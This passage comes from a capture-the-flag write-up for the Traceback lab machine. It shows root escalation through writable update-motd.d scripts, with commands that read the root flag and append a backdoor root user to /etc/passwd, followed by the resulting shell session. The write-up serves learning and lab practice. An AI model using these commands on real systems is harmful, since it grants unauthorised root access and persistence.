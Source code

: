 **root user** *at each  login"*. Therefore, commands injected on the update-motd.d scripts get executed as *root*.
 
## Root Shell
As the name indicates, these are 'dynamic' MOTD messages and therefore the best chance to gain privileges is through
**00-header**, as that the file bound to get executed everytime. The easiest method to get root flag is by adding 
```cat /root/root.txt``` on  *00-header* and the root flag gets printed on the welcome banner as soon as we login as 
*sysadmin*. But to gain a root shell, a new root user, **evil** was added on the target. The password hash 
for **Offsec@123** was generated with *openssl*. Post generating the hash, the file *00-header* was edited to add the
following two lines.
```shell 
cat /root/root.txt 
echo "evil:WLynVsZG.aWok:0:0:root:/root:/bin/bash" >> /etc/passwd 
```
The process is shown on the section below.
```shell 
$ openssl passwd Offsec@123 
Warning: truncating password to 8 characters 
WLynVsZG.aWok 
$ cd /etc/update-mo* 
$ vi 00-header 
$ cat 00-header 
#!/bin/sh 
cat /root/root.txt 
echo "evil:WLynVsZG.aWok:0:0:root:/root:/bin/bash" >> /etc/passwd 
# 
#    00-header - create the header of the MOTD 
#    Copyright (C) 2009-2010 Canonical Ltd. 
---SNIP---
```
A new login as sysadmin through SSH was then carried out and as expected the root hash gets printed on the welcome
message. For a complete root shell, the session was switched to user **evil** using *su* and the flag was read.
```shell 
[_4m0r@manjaro Traceback]$ ssh -i id_rsa sysadmin@10.10.10.181 
################################# 
-------- OWNED BY XH4H  --------- 
- I guess stuff could have been configured better ^^ - 
################################# 
e2f5f---REDACTED---d6b2d 
 
Welcome to Xh4H land  
 
 
 
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings 
 
Last login: Thu Jul 30 13:44:54 2020 from 10.10.14.121 
$ su evil 
Password:  
root@traceback:/home/sysadmin# id 
uid=0(root) gid=0(root) groups=0(root) 
root@traceback:/home/sysadmin# 
```
> **The advantage of gaining root shell as opposed to just trying to read the flag is that, the cat method assumes** 
> **that the flag is present on** ***/root***, **which might not always be the case. Additionally, it rounds up as a**
